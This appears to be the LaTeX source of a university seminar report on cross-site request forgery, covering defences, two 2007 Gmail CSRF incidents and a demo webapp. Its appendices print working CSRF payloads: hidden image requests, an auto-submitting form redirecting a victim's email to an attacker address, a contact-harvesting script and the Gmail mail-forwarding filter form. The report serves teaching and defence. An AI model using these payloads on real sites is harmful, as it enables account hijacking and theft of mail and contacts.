\documentclass[a4paper,11pt,openany]{report}
\usepackage[utf8]{inputenc}
\usepackage[english]{babel}
\usepackage[font=small,labelfont=bf, textfont=it]{caption}
\usepackage[top=1.5cm, bottom=1.5cm, left=2cm, right=2cm]{geometry} % to change padding
\usepackage{verbatim}
\usepackage{subcaption} % for multi figure
\usepackage{enumitem} % -- label item
\usepackage{tabularx}
\usepackage{color}
\usepackage[usenames, dvipsnames]{xcolor} % color
\usepackage[framemethod=TikZ]{mdframed} % box
\usepackage{listings} % code
\usepackage{minted} % code
%\usepackage{amsmath} % align* maths
\usepackage{wrapfig}
\usepackage[section]{placeins} % float inside subsection
\usepackage[bookmarks, hidelinks]{hyperref} % clickable links
\usepackage{graphicx} % includegraphics
\usepackage{indentfirst}
\usepackage{titlesec} % spacing between sections
\usepackage{multicol}

\setlength\parindent{0pt}
\setlength{\parskip}{0.9em} % paragraph vertical space

\renewcommand\thesection{\arabic{section}} % start section from 1
\setcounter{tocdepth}{3} % display subsubsection in toc
\setcounter{secnumdepth}{3} % number subsubsection

% space before lists
\setlist[itemize]{topsep=0pt}
\setlist[enumerate]{topsep=0pt}

% spacing between sections
% \titlespacing{command}{left spacing}{before spacing}{after spacing}[right]
% spacing: how to read {12pt plus 4pt minus 2pt}
%           12pt is what we would like the spacing to be
%           plus 4pt means that TeX can stretch it by at most 4pt
%           minus 2pt means that TeX can shrink it by at most 2pt
\titlespacing\section{0pt}{6pt plus 2pt minus 3pt}{0pt plus 2pt minus 2pt}
\titlespacing\subsection{0pt}{3pt plus 1pt minus 1pt}{0pt plus 2pt minus 2pt}
\titlespacing\subsubsection{0pt}{2pt plus 0pt minus 1pt}{0pt plus 2pt minus 2pt}

% spacing between figure and caption
\setlength{\abovecaptionskip}{2pt plus 2pt minus 4pt} % default: 10pt

% \title{Internet Security \& Privacy\\Seminar -- Report\\\vspace{10pt}\textbf{CSRF attack: even Google was vulnerable.}}
% \author{Quentin Lemaire \& David Kufa\\Group 26}

\newcommand{\csrf}{\textit{Cross-Site Request Forgery}}


\begin{document}

  % first page
 \begin{titlepage}
  \centering
  \vspace*{\stretch{1}}
  \vfill
    {\bfseries\Large{
	Internet Security \& Privacy\\
	Seminar -- Report}
    }    
  \vfill
  \vfill
    \Huge{\textsc{CSRF attack: even Google was vulnerable.}}
  \vfill
      \Large{\textsc{David Kufa} \& \textsc{Quentin Lemaire}}
    \\
  \vspace{0.4cm}
    Group 26
  \vfill
  \vfill
    % \includegraphics[width=0.22\textwidth]{kth.jpg}
    KTH Royal Institute of Technology
  \vfill
    \today
  \vspace*{\stretch{1}}
\end{titlepage}

% abstract
\newgeometry{left=4cm,right=4cm}
\begin{abstract}
  \csrf{} (CSRF) -- often spelled ``sea surf'' -- is a well-known web attack which was 
  discovered in 2001. The \textit{Open Web Application Security Project} (OWASP \cite{owasp}) 
  ranked CSRF as the 8th\footnote{In 2007 \& 2010 OWASP's tops ten, CSRF was at the 5th position 
  (\url{https://www.owasp.org/index.php/Top_10_2007} \& \url{https://www.owasp.org/index.php/Top_10_2010}).} 
  vulnerability in the top 10 of the most critical web application security risks in 2013~\cite{owasp_top_ten}.
  
  CSRF attacks consists of creating (forging) fake HTTP or HTTPS\footnote{TLS encrypts 
  information between the client (browser) and the server in order to prevent sniffing 
  in untrusted networks and man in the middle attacks but it does not protect from 
  legitimate requests.} requests on the user's behalf. It utilizes the lack of knowledge 
  of the victim to build the request and get information with their credentials (as if 
  the user really wanted to execute this request). In order to succeed, the victim must 
  be connected (authenticated) to the service (website) where the vulnerability is located. 
  Then, an attacker will have to fool the victim in order to build the fake request (with 
  social engineering for instance).
  
  During this seminar we wanted to get a better understanding of the security breaches 
  involved in CSRF attack. Our first and most interesting part was the comprehension of 
  the surface of attack: how can it be done and where does it come from. It 
  was also important to understand what kind of information an attacker could steal or 
  affect on the user's behalf thanks to this attack. Furthermore, it was relevant to study 
  different ways of detecting the vulnerability and how to protect web servers from this 
  attack.
  
  In our second part we focused our attention on concrete applications of CSRF vulnerabilities. 
  Lots of companies were affected in the past and we decided to deal with Google's well-known 
  stories about CSRF. Two different vulnerabilities were discovered in 2007 concerning 
  Google's \footnote{\url{https://mail.google.com/}} email service Gmail.
  
  Finally, we implemented a small webapp with different services, either vulnerable or protected, 
  from CSRF attack. This webapp featured an attacker website (both developed from scratch), 
  the outline of different practical examples of the attack and different ways to prevent it.
  \end{abstract}
\restoregeometry

\addtocontents{toc}{\protect\thispagestyle{empty}} % remove toc pagination
\tableofcontents{} % toc
\clearpage % leave a page
\setcounter{page}{1} % init counter page

  \section{Introduction}
  This report is split in two different parts. Firstly, it deals with \csrf{} (CSRF) attacks in 
  a theoretical and practical way. Academic examples and explanations describe and explore 
  different aspects and subtilities of CSRF attack. Secondly, this report deals with concrete 
  scenarios (in ``real life'') of CSRF breaches with two use cases about Google Gmail service.

  \section{Overview of CSRF}
  For each kind of WEB vulnerability, it is important to know how to detect and prevent them. 
  We will explain in more details what a CSRF attack is, how to identify and exploit CSRF 
  vulnerable services and finally how to protect these services. 
  Every explanation will be followed with examples from our own developed web application. 
  This application provides different services in order to manage and store a list of 
  interests (hobbies). More explanations from the technical documentation can be found 
  in appendix~\ref{app:practical_documentation}.
  
  \subsection{Description}
  \csrf{} attacks consist of creating (forging) fake HTTP(S) requests on an authenticated 
  user's behalf. It utilizes the lack of knowledge of the victim (user) and a breach in 
  the vulnerable website to build the request with credentials (cookies) of the victim. This 
  request can execute actions such as email changing, posting message, account deletion, etc.
  In order to succeed, the victim must be connected (authenticated) to the vulnerable website. 
  An attacker will have to fool a victim that is currently connected to forge the fake request, 
  e.g. with social engineering or cross-site scripting (XSS)\cite{wikipedia_xss} vulnerability.
  
  \subsection{Exploitation}
  Figure~\ref{figure:csrf_scenario} displays a typical CSRF attack scenario with 3 actors: a 
  user (the victim), a vulnerable web server and an attacker web server. Each step of the 
  scenario are described here:
  \begin{enumerate}
   \itemsep0pt % space between bullets in lists
   \item The victim authenticates to the vulnerable web server with his or her credentials (most 
   of the time, a login and a password).
   \item The web server authenticates the client and sets a cookie on both the server and the client (browser).
   \item The victim is browsing the web, reading some articles for instance. Finally, he or 
   she visits the attacker website. It is usually done with malicious email or XSS vulnerability 
   on another website.
   \item The attacker website answers with a page containing malicious HTML code (often with 
   JavaScript). The browser interprets the HTML and JavaScript code and requests different URIs like 
   ``img'' HTML tags with an HTTP GET request. It is also possible to execute POST requests with 
   JavaScript as shown in Appendix~\ref{app:csrf_attack}.
   \item Forged request (probably executing actions) is made with victim's credentials.
  \end{enumerate}
  
\begin{figure}[h!t]
  \vspace*{-30pt}
  \begin{center}
    \fbox{
\includegraphics[width=.9\linewidth]{schemes/CSRF_attack.png}}
    \caption{
      CSRF attack scenario. Diagram realized with Dia (\url{https://wiki.gnome.org/Apps/Dia/}).
    }
    \label{figure:csrf_scenario}
  \end{center}
  \vspace*{-20pt}
\end{figure}
  
  \subsection{How to prevent it ?}
  Websites are often vulnerable because of the lack of knowledge from developers. An attacker is able 
  to forge a request because he or she is able to find (retro-engineering) the needed parameters in 
  order to make the victim execute an HTTP request. Small tricks like one-time tokens or one-time 
  challenges allows developers to protect their website from CSRF attacks. The attacker will not be able 
  to find the needed parameters anymore.
  
  \subsubsection{Tokens}
  
  \vspace*{-15pt}
  
    \begin{wrapfigure}{r}{0.5\textwidth}
  \vspace*{-10pt}
  \begin{minted}{php}
<?php
$token = $_POST['csrf_token'];
$valid_request = $token === $_SESSION['token'];
?>
  \end{minted}
  \vspace*{-10pt}
  \caption{Code to check session token (server side)}
  \label{figure:session_token_server}
  \end{wrapfigure}
  
  \paragraph{Session token}
  It is possible to use a session token which is a ``random'' number, generated at the beginning 
  of a user's session (authentication). The token is sent by the server in every forms (for POST 
  requests) as a hidden HTML input (as shown in Appendix Figure~\ref{figure:session_token_client}) or URL 
  (for GET requests) as a parameter. This number must be sent by the browser in every request in 
  order to achieve a service. In order to avoid replay attacks, it is important to change this token 
  after each use of service. Tokens must be stored in the user's session on the server to check its 
  validity (as shown in figure~\ref{figure:session_token_server}).
  
  \vspace*{-20pt}
  
  \paragraph{Signed token} % show code as example (using HMAC)
  It is possible to use a Hash based Message Authentication Code (HMAC) in order to ``sign'' 
  generated tokens. With a private secret only known by the server, tokens are signed using 
  HMAC and this hash is concatenated to the token before sending it to the user (in a hidden 
  HTML input as shown in figure~\ref{figure:signed_token_client}). This signed token avoids 
  storage of tokens in session but the method has several drawbacks like ``golden'' token. 
  Indeed, if the token is stolen (somehow), it can be reused on the user's behalf. In order 
  to prevent these type of events, it is possible to append a timestamp (time to leave) after 
  the token value. HMAC will protect the timestamp from modification (integrity 
  check) so there is no need to encrypt it. Appendix Figure~\ref{figure:signed_token_server} 
  displays example to build and check tokens.
  
  \begin{figure}[h!t]
  \begin{minted}[linenos]{html}
<form method="POST" action="?p=interests&action=add">
    <input type="hidden" name="csrf_token" 
        value="WQJCXDUivLPd1r5OLW[...]OYdw==$f75bfabe1[...]04394e6b" />
    [...]
    <input type="submit" value="Create interest" />
</form>
  \end{minted}
  \caption{Example of a signed token (client side). The value is split in 2 parts: the first part 
  (before \$ symbol) contains the token. The second part (after \$ symbol), there is the HMAC which 
  will let the server check integrity of the token.}
  \label{figure:signed_token_client}
  \end{figure}
  
  \subsubsection{Challenges}
  
  \paragraph{Double authentication}
  For each critical service, it is common use to add a double authentication as a confirmation 
  before executing the action. For instance, in GitHub~\cite{github}, when one wants to add a new 
  SSH public key to authenticate on GitHub server, he or she has to retype the password to 
  re-authenticate and prevent CSRF attack.
  
  \vspace*{-20pt}
  
  \paragraph{CAPTCHA}\footnote{CAPTCHA stands for ``Completely Automated Public Turing test to tell Computers and 
  Humans Apart''}
  Another challenge, similar to double authentication, consists of the confirmation of the requests 
  through the insertion of a one-time text within an image. This technique is known as CAPTCHA
  and is mostly used to prevent robots from scanning the web and executing spam 
  requests.
  
  \subsubsection{Check referer}
  Another protection against CSRF attacks is to check \textit{HTTP-REFERER} which is the URL of the 
  website where the request comes from. This value comes from the client but it is not easy nay impossible 
  to forge from a third party website. A problem remains with this technique: lots of browsers and HTTP 
  clients alter or remove this value within the HTTP request. Thus, this is impossible to use in order 
  to protect the website from CSRF without having features removed due to those clients.
   
  \subsubsection{Other protections}  
  Recommendations described above are not exhaustive. It is possible to combine them in order to increase 
  the security of the application against CSRF attacks. Nowadays lots of web development frameworks provide 
  CSRF protecting tools and it is absolutely recommended to use them in production environment.
  
  Furthermore, it is important to tell users they have an important role to play to prevent these attacks. 
  With common gestures (actions) like logging out of websites when done with them, having different browsers 
  for trusted and not trusted websites, using ``NoScript''\footnote{\url{https://noscript.net/}} extension to 
  avoid JavaScript to be executed by untrusted websites, etc. it is possible to avoid such risks.
  
  \section{Google, vulnerable to CSRF in 2007}
  One of today's most renowned company in the world~\cite{forbes} was seriously harmed in 2007. During one single year, 
  Google was subject to not one, but two CSRF attacks. The attackers had no problems abusing security 
  vulnerabilities in Google's newly released email service: Gmail. Although Gmail has been around in a beta 
  environment since 2004, it was not until 2007 it was released to the public. It was a year when CSRF went from 
  being an unknown threat with scarce prevention across the web to something that would appear on the wallpaper 
  several years later.
  
  CSRF attacks are always serious but the two attacks differentiated in that one could only gather information 
  while the other one could hijack the email. The latter was a much more serious threat as it could ultimately end 
  with losing one's account. Since then, these particular events are often used in educational contexts to help 
  demonstrating CSRF\cite{owasp_csrf_presentation}. 

  
  \subsection{Contact list spoofing}
  It was around the beginning of 2007 that the public got information about CSRF attacks on Gmail. The CSRF 
  attack involved theft of users' contact lists and it was hot news on the Internet as well as in papers. The 
  aim of this attack was to gather email addresses that could be targeted by spam and phishing services.
  Successfully stolen contact lists could not be detected by the users as the attackers did not actually steal
  anything. The result was clueless users that did not know if they were affected until their colleagues and 
  friends started reporting about weird emails and spam issues\cite{gmail_hijack_csrf2}.
  
  One have to realize that email spoofing exists even today. Large email services like Gmail and Outlook have
  complex algorithms to tackle this problem to a certain extent. These algorithms were far as advanced in 2007 as 
  they are today. Spamming was a troublesome problem and phishing was very efficient in fooling people, especially 
  the older technology generation.
  
  The security around the contact list was breached because of negligence from the development team. Although
  some of the attacks succeeded, Google could correct the problem rather quickly~\cite{oreilly}.

  \subsubsection{Exploitation}
  The basics of a CSRF scenario applies here:
  \begin{enumerate}
   \itemsep0pt % space between bullets in lists
   \item The victim authenticates to Gmail with his or her credentials. At that time there existed an auto login
   that kept the cookie active, for almost an unlimited time, to any Google service.
   \item (As most users were already logged in, they could simply browse the web right off the bat.)
   \item The victim is browsing the web, accessing the attacker website. 
   \item The attacker website answers with a page containing malicious HTML code with JavaScript.
   \item Forged request is made, calling the google function found in Figure~\ref{figure:callback_js}.
   \item (Final stroke) Attacker receives object with email contacts. %% Maybe not useful
  \end{enumerate}
  
  What made this possible was the server's verification scheme: it was only verifying that the caller was logged in 
  to a Google account. The ever active cookie declared it without hesitation which led to a successful attack.
  To make it even worse, the server did not check if the call came from the same webpage~\cite{gmail_contact_list_csrf}. 
  A simple popup window could have triggered this attack.
  
\begin{figure}[h!t]
  \begin{multicols}{2}
  \begin{minted}[linenos]{js}
google ({
    Success: true,
    Errors: [],
    Body: {
        AuthToken: {
            Value: '*****'
        },
        Contacts: [
        {
            Id: '***',
            Email: 'foo@gmail.com',
            Affinity: '***',
            Groups: [
            {
                id: '^Freq',
                value: '***'
            }
            ],
            Addressess: [],
            Phoness: [],
            Imss: []
        }, {}, {}, ...
        // Lots more contacts here
        ]
    }
});
  \end{minted}
  \end{multicols}
  \caption{The JavaScript callback function that returned a data structure (object) with all email contacts~\cite{oreilly}.}
  \label{figure:callback_js}
\end{figure}
  
  As you can see in Figure~\ref{figure:callback_js}, several fields were accessible. The affinity field told the attacker how important 
  the contact was to that user, making it a more vulnerable target for phishing attempts~\cite{oreilly}. 
  
  \begin{figure}[h!t]
  \begin{minted}[linenos]{html} 
<script type="text/javascript">
    function google(data){
        var emails, i;
        for (i = 0; i < data.Body.Contacts.length; i++) {
            mails += "<li>" + data.Body.Contacts[i].Email + "";
        }
        document.write("<ol>" + emails + "</ol>");
    }
</script>

<script type="text/javascript" 
        src="http://docs.google.com/data/contacts?out=js&show=ALL&psort=Affinity
             &callback=google&max=99999"></script>
  \end{minted}
  \caption{A simple JavaScript that calls the function in Figure~\ref{figure:callback_js} and writes the received data to a file\cite{gmail_contact_list_csrf2}.}
  \label{figure:callback}
  \end{figure}
  
  The code in Figure~\ref{figure:callback} does a very basic operation. The attacker could as well send the data to 
  another program that would for instance spam all contacts in the list or creating network connections for better 
  relevance in phishing attempts.
  
  \subsubsection{Impact}
  Starting a new service with problems is not a winning concept. Potential future users were thinking if Gmail 
  really was the best choice, especially when Microsoft initiated Outlook 2007 set up for Hotmail accounts. 
  But the final result was that it did not have such a huge impact as Google managed to fix the problem relatively
  quickly~\cite{techcrunch}.
  
  \subsection{Email filter hijacking}
  Later in 2007 a second CSRF attack was launched on Gmail. This attack was very serious as it compromised 
  users' integrity. Malicious code forced the victim's Gmail account to add a forwarding filter. All current 
  and future emails were forwarded to the attacker's choice of email. Just as the first attack, it was very 
  subtle to the users, meaning an infected user would have problems spotting the fraud. The attacker could 
  either reap the rewards by lurking in the shadows, or choose to request a password change and hijack the 
  email account. The result could be devastating with leaked information, account/credit card details, bank 
  data, confidential reports, etc. Having control over a trusted email would give the attacker new possibilities 
  by attacking others in the contact list.
  
  Google, with its top modern development team, did not waste any time and patched up Gmail swiftly. See the
  sub section: Impact for further information on this subject.
  
  \subsubsection{Exploitation}
  This attack used the same basic CSRF techniques. The difference is the code that is used to inject the filter.
  It is a so called multipart/form-data POST where all the form's fields are being hidden. So instead of using
  a picture as a disguise, a hidden form is used as shown in Appendix Figure~\ref{figure:form}. JavaScript was 
  used to execute the form: \texttt{document.forms[0].submit();}. The injection could be done on almost any of 
  Gmail's interfaces where a user was logged in.
  
  \subsubsection{Impact}
  One would think it would be a hard backlash for Gmail when the reports came about the CSRF attacks. Users lost 
  accounts and information even after Google fixed the vulnerability - as the source of the attack, the filter, 
  had to be removed by the users themselves. But the declining popularity never occurred. The key, to the gigantic
  success users world wide are using today, is the fact it happened in an early stage. During the attacks in 
  September, approximately 80 thousand were using Gmail~\cite{techcrunch}. Compare it to 2015 where 900 million 
  users exists~\cite{dmr}. The attack was severe, but it was done during a time Gmail had just started their engines. 
  If the same attack would happen today, who knows how many users would leave Gmail for another email service.

  \subsection{Comparison}
  Both were \csrf{} attacks that were ahead of their time. Key components in them are malicious scripts that runs in the 
  shadow. The first attack had a larger emphasize on the actual script while the second attack used a special type of 
  form. Result: as long as the victim did not realize what had happened they remained equally effective.
  
  As it have been told earlier, the first attack was less serious than the second attack. Gathering contacts and 
  hijacking an entire account are two different things. But they were still serious threats nonetheless as they
  jeopardized a newly launched service that had been developed for several years. 
  
  \section{Conclusion}
  \csrf{} is nowadays well-known by developers and web security researchers. Lots of interesting papers have been written 
  on the subject and this seminar did not intend to rewrite what was already done. The aim was to deal with a real subject 
  (with real impact on companies) with practical implementations in order to get a better understanding about one of the 
  most important web vulnerabilities.
  
  Impacts of web security breaches are more and more important. Attackers do not want to destroy servers or deface 
  websites anymore. They are trying to invisibly take control of servers in order to gather information. ``Data is gold'' 
  and attackers do their best in order to get access to it. The reasons are many: money, intelligence, challenge, etc. 
  Preventing systems from these attacks is one of the most important security matter since the beginning of Internet but 
  even more with the emergence of Internet of Things (IoT), Bring Your Own Device (BYOD) concept and growing exposure of 
  IT systems.
  
% appendix
\appendix
\addtocontents{toc}{\protect\setcounter{tocdepth}{-1}}

\chapter{Practical documentation} \label{app:practical_documentation}

\section{Introduction}
The developed webapp is a small web application delivering different features 
in order to store and manage a list of interests. It provides authentication and 
interests-management. It has been developed from scratch with \textit{Apache 
WEB server 2.4}\footnote{\url{https://httpd.apache.org/}} and \textit{PHP 5.6}. 
The database used is \textit{MySQL 5.5}\footnote{\url{http://www.mysql.com/}} with 
\textit{InnoDB} engine.

\section{Specifications}

\subsection{Description}

In this web application, users can register and log in from their browser. As soon as 
they registered with an account, password and email, they are able to connect to 
the application. Once connected, the user has different possibilities. He or she can 
change their account settings, like the email attached to their account. A service lets the 
user delete his or her account. He or she can also add new interest to their list of 
interests. An interest is composed of a name and a description which is optional. It is 
possible to remove interests from the list (unbind) and add (bind) as many interests as 
possible.

Some services are protected from CSRF attack and some are not. An exhaustive list of implemented 
services is described below.

\subsection{Services}

Different entities are parts of the web application's model. Here is an exhaustive list of implemented 
services, each one of them are prefixed with either ``[public]'' or ``[private]''. ``[public]'' means that 
service is accessible from the web (with a URI) and ``[private]'' is naturally the opposite of ``[public]''.
\begin{description}
 \item[User] this entity provides functions and methods related to user management
 \begin{itemize}[label=--]
  \item {[}public{]} Register a user with a login, a password and an email
  \item {[}public{]} Login a user with a couple (login, password)
  \item {[}private{]} Check \& hash password
  \item {[}public{]} Change user's email: \color{red}{vulnerable to CSRF attack}\color{black}{}
  \item {[}public{]} Disconnect the user
  \item {[}public{]} Delete user account: \color{green}{protected against CSRF attack}\color{black}{}
 \end{itemize}
 
 \item[Interest] this entity provides functions and methods related to interest management:
 \begin{itemize}[label=--]
  \item {[}public{]} Add an interest: \color{green}{protected against CSRF attack}\color{black}{}
  \item {[}public{]} Remove an interest: \color{red}{vulnerable to CSRF attack}\color{black}{}
  \item {[}private{]} Bind an interest with a user
  \item {[}private{]} Unbind an interest with a user
  \item {[}public{]} Get user's interests
  \item {[}private{]} Get all interests
 \end{itemize}

 \item[CSRF] this entity is not directly related to the web application but it contains the 
 implementation of CSRF protection functions and attributes:
 \begin{itemize}[label=--]
  \item {[}private{]} Secret key
  \item {[}private{]} Generate token
  \item {[}private{]} Check token
  \item {[}private{]} Sign token
  \item {[}private{]} Generate a signed token
  \item {[}private{]} Check a signed token
 \end{itemize}

\end{description}

\subsection{Database}
The database schema is composed of the two main entities of the web application:
\begin{itemize}
 \item Users
 \item Interests
\end{itemize}
Each attributes, table names and relations are defined in figure~\ref{figure:database}.

\begin{figure}[h!t]
  % trim=left bottom right top
  
\includegraphics[trim=0 200 0 110,clip,height=0.45\textheight]{database.pdf}
  \caption{Database diagram. Arrows represent foreign keys. Extra information: ``login'' in ``Users'' table is UNIQUE.}
  \label{figure:database}
\end{figure}

\chapter{Examples of protected code}  \label{app:protected_code}

\begin{figure}[h!t]
  \begin{minted}[linenos]{html}
<form method="POST" action="?p=account&action=delete">
    <input type="hidden" name="csrf_token" value="5XWla[...]hHNPpXs=" />
    <input type="submit" value="I'm sure I want to delete my account" />
</form>
  \end{minted}
  \caption{Example of a session token in a hidden HTML input (client side)}
  \label{figure:session_token_client}
\end{figure}

\begin{figure}[ht!]
  \begin{minted}[linenos]{PHP}
<?php
const SECRET_KEY = 'a0e605ee21f0b7bdd85ff2edb8177dcf'; // 16 bytes key
const SEPARATOR = '$'; // not base64 chars i.e. not from [0-9a-zA-Z/=+]

public static function generate_signed_token($size = 64) {
    $token = self::generate_token($size); // base64 token
    $signed_token = self::sign_token($token);
    return $token . self::SEPARATOR . $signed_token;
}

private static function sign_token($token) {
    return hash_hmac('sha512', $token, self::SECRET_KEY);
}
  
public static function check_signed_token($received_token) {
    list($token, $signature) = explode(self::SEPARATOR, $received_token); // split
    $signed_received_token = self::sign_token($token); // sign received token
    return $signature === $signed_received_token; // compare with signature
}
?>
  \end{minted}
  \caption{PHP code to check a signed token (server side).}
  \label{figure:signed_token_server}
  \end{figure}
  
\chapter{Examples of malicious HTML code} \label{app:csrf_attack}

\vspace*{-30pt}

\begin{figure}[h!t]
  \begin{minted}[linenos]{html}
<p>Take a look at my picture:<br />
<img src="http://vulnerable_site.com/?p=interests&action=remove&id=12" 
    width=0 height=0 /> <!-- Invisible GET request-->
<img src="http://real_image.png" alt="My image" />
  \end{minted}
  \caption{%
  Example of CSRF attack forging a GET HTTP request. Browser will execute the following GET request:\\
  ``GET http://vulnerable\_site.com/?p=interests\&action=remove\&id=12''\\
  This request will be totally invisible for the victim and this will remove one of his or her interest.
  }
  \label{figure:get_request}
\end{figure}

\begin{figure}[h!t]
  \begin{minted}[linenos]{html}
<form name="hackForm" method="POST" 
    action="http://vulnerable_site.com/?p=account&action=email">
        <input type="hidden" name="email" value="mail@attacker.com">
</form>
<script type="text/javascript">
    document.hackForm.submit(); // submit form
</script>
  \end{minted}
  \caption{%
  Example of a CSRF attack forging a POST HTTP request. Execution of JavaScript is needed.
  This request will not be invisible for the victim but it will still forge a request to change 
  the email of the victim in the vulnerable website. If the attacker is faster than the victim, he 
  or she can retrieve the account with the feature ``Retrieve my password''.
  }
  \label{figure:post_request}
\end{figure}

  \begin{figure}[h!t]
  \begin{minted}[linenos]{HTML}
<form method="POST" 
    action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf" 
    enctype="multipart/form-data"> 
  <input type="hidden" name="cf2_emc" value="true"/> 
  <input type="hidden" name="cf2_email" value="allyourmails@arebelongto.us"/> 
  <input type="hidden" name="cf1_from" value=""/> 
  <input type="hidden" name="cf1_to" value=""/> 
  <input type="hidden" name="cf1_subj" value=""/> 
  <input type="hidden" name="cf1_has" value=""/> 
  <input type="hidden" name="cf1_hasnot" value=""/> 
  <input type="hidden" name="cf1_attach" value="true"/> 
  <input type="hidden" name="tfi" value=""/> 
  <input type="hidden" name="s" value="z"/> 
  <input type="hidden" name="irf" value="on"/> 
  <input type="hidden" name="nvp_bu_cftb" value="Create Filter"/> 
</form>
  \end{minted}
  \caption{The form layout presented by Gnucitizen~\cite{gnucitizen} (educational site on security related matters).}
  \label{figure:form}
  \end{figure}
  

\chapter{Web application's screenshots} \label{app:screenshots}

